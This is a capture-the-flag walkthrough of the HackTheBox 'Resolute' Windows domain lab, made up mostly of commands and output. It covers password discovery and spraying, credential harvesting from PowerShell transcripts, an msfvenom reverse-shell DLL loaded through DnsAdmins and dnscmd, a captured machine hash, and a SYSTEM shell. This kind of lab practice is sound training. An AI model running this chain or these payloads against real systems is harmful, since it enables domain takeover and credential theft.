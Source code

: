 ```yaml
---
title: HackTheBox-Resolute
date: 2024-12-24 09:41:00 +/-TTTT
categories: [boxes, red-teaming]
tags: [DevelopGroup, DnsAdmin]     # TAG names should always be lowercase
---
```


## SMB-enum

    ➜  resolute nxc smb 10.10.10.169
    SMB         10.10.10.169    445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)

## querydispinfo

    rpcclient $> querydispinfo
    Name: Marko Novak       Desc: Account created. Password set to Welcome123!

## password-spray

    ➜  resolute nxc smb 10.10.10.169 -u users.txt -p 'Welcome123!' --continue-on-success
    SMB         10.10.10.169    445    RESOLUTE         [+] megabank.local\melanie:Welcome123! 

## winrm-enum


    ➜  resolute evil-winrm -i 10.10.10.169 -u melanie -p 'Welcome123!'

    *Evil-WinRM* PS C:\PSTranscripts\20191203> type PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt


    PS>CommandInvocation(Invoke-Expression): "Invoke-Expression"
    >> ParameterBinding(Invoke-Expression): name="Command"; value="cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!

## found vuln


    *Evil-WinRM* PS C:\Users\ryan\Desktop> whoami /all

    USER INFORMATION
    ----------------

    User Name     SID
    ============= ==============================================
    megabank\ryan S-1-5-21-1392959593-3013219662-3596683436-1105


    GROUP INFORMATION
    -----------------

    Group Name                                 Type             SID                                            Attributes
    ========================================== ================ ============================================== ===============================================================
    Everyone                                   Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
    BUILTIN\Users                              Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
    BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
    BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\This Organization             Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
    MEGABANK\Contractors                       Group            S-1-5-21-1392959593-3013219662-3596683436-1103 Mandatory group, Enabled by default, Enabled group
    MEGABANK\DnsAdmins


## DnsAdmins

### create payload
    ➜  resolute msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.4 LPORT=443 -f dll > privesc.dll
### start smb server
    ➜  resolute sudo impacket-smbserver s .
    Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

    [*] Config file parsed
    [*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
    [*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
    [*] Config file parsed
    [*] Config file parsed

### playin with dnscmd.exe
    *Evil-WinRM* PS C:\Users\ryan\Documents> dnscmd.exe /config /serverlevelplugindll \\10.10.14.4\s\privesc.dll

    Registry property serverlevelplugindll successfully reset.
    Command completed successfully.

    *Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe \\resolute stop dns

    SERVICE_NAME: dns
            TYPE               : 10  WIN32_OWN_PROCESS
            STATE              : 3  STOP_PENDING
                                    (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
            WIN32_EXIT_CODE    : 0  (0x0)
            SERVICE_EXIT_CODE  : 0  (0x0)
            CHECKPOINT         : 0x1
            WAIT_HINT          : 0x7530
    *Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe \\resolute start dns

    SERVICE_NAME: dns
            TYPE               : 10  WIN32_OWN_PROCESS
            STATE              : 2  START_PENDING
                                    (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
            WIN32_EXIT_CODE    : 0  (0x0)
            SERVICE_EXIT_CODE  : 0  (0x0)
            CHECKPOINT         : 0x0
            WAIT_HINT          : 0x7d0
            PID                : 1704
            FLAGS              :
    *Evil-WinRM* PS C:\Users\ryan\Documents> 

### grab HASH

its not crackable


    ➜  resolute sudo impacket-smbserver s .
    Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

    [*] Config file parsed
    [*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
    [*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
    [*] Config file parsed
    [*] Config file parsed
    [*] Incoming connection (10.10.10.169,50870)
    [*] AUTHENTICATE_MESSAGE (MEGABANK\RESOLUTE$,RESOLUTE)
    [*] User RESOLUTE\RESOLUTE$ authenticated successfully
    [*] RESOLUTE$::MEGABANK:aaaaaaaaaaaaaaaa:37cdea4692c9fe2952976b72dcfebfd3:01010000000000000060bec43555db017f1cdf274e4ceb4f0000000001001000650065007800580045006700570078000300100065006500780058004500670057007800020010004b006d004400660072006c0054006900040010004b006d004400660072006c0054006900070008000060bec43555db0106000400020000000800300030000000000000000000000000400000e2a3540882cfffffba285192578f8afb6efdbadc4cbea7333c79894de200cd850a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e0034000000000000000000

### reverse shell
    ➜  resolute nc -nvlp 443
    listening on [any] 443 ...
    connect to [10.10.14.4] from (UNKNOWN) [10.10.10.169] 50965
    Microsoft Windows [Version 10.0.14393]
    (c) 2016 Microsoft Corporation. All rights reserved.

    C:\Windows\system32>whoami
    whoami
    nt authority\system

Video Walwalkthrough
[WATCH!](https://youtu.be/Dg9ZncvRL_Q)
